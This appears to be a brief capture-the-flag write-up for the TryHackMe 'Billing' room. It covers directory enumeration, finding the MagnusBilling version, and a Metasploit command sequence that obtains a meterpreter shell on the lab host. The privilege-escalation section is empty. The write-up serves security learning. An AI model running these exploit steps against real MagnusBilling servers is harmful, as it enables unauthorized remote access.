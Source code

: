 
2025-03-31 20:59

Source: #tryhackme #Boot2root 

Web page at port 80 which has a login page
### Enumeration 

Dirsearch shows a lot of options 
`README.md` holds version number of the service running on the app (i.e. MagnusBilling)

Then I did a bit of digging online and found [this](https://eldstal.se/advisories/230327-magnusbilling.html). (This didn't work)
### Exploiting 

Because this exploit was on Metasploit we do it that way 
below is the list of commands used to obtain meterpreter shell from start to end 
```
msfconsole 
search MagnusBilling
use 0 
set LHOST tun0
set RHOSTS billing.thm
exploit 
```

After getting the meterpreter shell type `shell` to get access to all Unix shell commands 
### Privesc 



### References
[TryHackMe | Billing](https://tryhackme.com/room/billing)

[CTF Chronicles: Billing | THM – NATSec](https://natsecure.wordpress.com/2025/03/08/ctf-chronicles-billing-thm/)